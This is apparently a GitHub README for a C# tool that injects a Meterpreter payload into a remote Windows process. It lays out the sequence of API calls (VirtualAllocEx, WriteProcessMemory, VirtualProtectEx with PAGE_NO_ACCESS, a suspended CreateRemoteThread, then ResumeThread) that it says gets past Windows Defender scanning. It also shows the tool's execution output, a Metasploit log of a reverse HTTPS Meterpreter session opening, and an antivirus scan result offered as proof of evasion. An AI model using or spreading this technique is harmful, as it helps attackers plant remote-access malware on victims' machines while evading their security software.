 # Suspended Thread Injection
Another meterpreter injection technique using C# that attempts to bypass Defender.

# Introduction
This code was written after reading [Bypassing Windows Defender Runtime Scanning](https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/) by **F-Secure Labs**. The technique I have written isn't the same but it got me thinking about how I can inject meterpreter into a remote process and go under the Defender radar.

The technique is quite simple:

- Open a remote process using `OpenProcess`.
- Decrypt the meterpreter payload in memory.
- Allocate some memory in the remote process using `VirtualAllocEx`, ensuring we assign the correct permissions to write to the memory of course.
- Write our payload into the allocated memory using `WriteProcessMemory`.
- Protect the memory using `VirtualProtectEx`, setting the protection to `PAGE_NO_ACCESS`.
- Create a new suspended thread using `CreateRemoteThread`.
- Sleep for 10 seconds while Defender scans the remote process memory for malicious code.
- Change the protection on the memory using `VirtualProtectEx`, setting the protection to `PAGE_EXECUTE_READ_WRITE`.
- Resuming the remote thread using `ResumeThread`

It would appear that protecting the page with `PAGE_NO_ACCESS` containing our meterpreter shellcode is not scanned by Defender and is not detected. By suspending the thread upon creation we are able to 'hold' the shellcode in memory until Defender has done it's scan then execute the shellcode when Defender has finished.

# Important
Remember, the code looks for an instance of notepad to inject into, it is trivial to change this, or even spawn a surregate process to inject in to.

# Example
Execution of the code is shown below:

```
[+] OpenProcess with PID 49416.
[+] VirtualAllocEx (PAGE_EXECUTE_READ_WRITE) on 0x2C4.
[+] WriteProcessMemory to 0x247A8CE0000.
[+] VirtualProtectEx (PAGE_NO_ACCESS) on 0x247A8CE0000.
[+] CreateRemoteThread (suspended) to 0x247A8CE0000.
[+] Sleeping whilst Defender scans the remote process.
[+] VirtualProtectEx (PAGE_EXECUTE_READ_WRITE) on 0x247A8CE0000.
[+] Resume thread 0x368.
```

And the meterpreter shell:

```
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: lsezjczd) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:60433) at 2021-10-07 08:32:00 +0100
```

# AV Scan Results

The binary was scanned using [antiscan.me](https://antiscan.me/scan/new/result?id=bpyZ4JnoDmkL) on 07/10/2021.

![AV Scan](https://github.com/plackyhacker/SysCalls/blob/main/Suspended_scan.png?raw=true)

# Notes

Tested with windows/x64/meterpreter/reverse_https on Windows 10 Pro (build 10.0.19042) with Defender.
